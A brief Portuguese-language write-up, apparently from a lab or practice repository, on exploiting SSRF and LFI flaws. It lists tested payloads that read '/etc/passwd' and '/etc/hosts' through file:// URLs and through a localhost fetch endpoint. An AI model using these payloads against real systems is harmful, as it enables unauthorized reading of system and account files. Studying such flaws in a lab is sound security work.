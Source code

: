 # Para explorar a vulnerabilidade SSRF e LFI

Há várias formas, incluindo protocolos, tais como FTP, SMB, SMTP, etc., porém, diante do cenário atual, testei 2 payloads, sendo os de **Leitura de arquivos** e **Acessos aplicações internas**.


**Payloads utilizados**

Para a anlise da vulnerabilidade utilizei os payloads abaixo:

<br/>

### Leitura de arquivos

Digite o comando abaixo:

```
file:///etc/passwd
```

```
file:///etc/hosts
```

### Acessos aplicações internas

Digite o comando abaixo:

```
http://localhost:5000/fetch?url=file%3A%2F%2F%2Fetc%2Fpasswd
```